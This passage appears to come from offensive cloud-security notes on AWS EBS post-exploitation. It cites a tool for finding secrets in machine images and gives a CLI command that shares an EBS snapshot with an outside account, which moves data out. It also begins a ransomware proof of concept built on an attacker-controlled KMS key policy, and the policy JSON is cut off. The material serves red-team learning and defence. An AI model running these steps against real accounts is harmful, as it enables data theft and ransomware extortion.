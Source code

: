### Search sensitive information in public and private AMIs

- [https://github.com/saw-your-packet/CloudShovel](https://github.com/saw-your-packet/CloudShovel): CloudShovel is a tool designed to **search for sensitive information within public or private Amazon Machine Images (AMIs)**. It automates the process of launching instances from target AMIs, mounting their volumes, and scanning for potential secrets or sensitive data.

### Share EBS Snapshot

```bash
aws ec2 modify-snapshot-attribute --snapshot-id <snapshot_ID> --create-volume-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```

### EBS Ransomware PoC

A proof of concept similar to the Ransomware demonstration demonstrated in the S3 post-exploitation notes. KMS should be renamed to RMS for Ransomware Management Service with how easy it is to use to encrypt various AWS services using it.

First from an 'attacker' AWS account, create a customer managed key in KMS. For this example we'll just have AWS manage the key data for me, but in a realistic scenario a malicious actor would retain the key data outside of AWS' control. Change the key policy to allow for any AWS account Principal to use the key. For this key policy, the account's name was 'AttackSim' and the policy rule allowing all access is called 'Outside Encryption'

```
{
    "Version": "2012-10-17",
    "Id": "key-consolepolicy-3",
    "Statement": [
        {
            "Sid": "Enable IAM User Permissions",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::[Your AWS Account Id]:root"
            },
            "Action": "kms:*",
            "Resource": "*"
        },
        {
            "Sid": "Allow access for Key Administrators",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::[Your AWS Account Id]:user/AttackSim"
            },
            "Action": [
                "kms:Create*",
                "kms:Describe*",
                "kms:Enable*",
                "kms:List*",
                "kms:Put*",
                "kms:Update*",
                "kms:Revoke*",
                "kms:Disable*",
                "kms:Get*",
                "kms:Delete*",
                "kms:TagResource",
                "kms:UntagResource",
                "kms:ScheduleKeyDeletion",
                "kms:CancelKeyDeletion"
            ],
            "Resource": "*"
        },
        {
```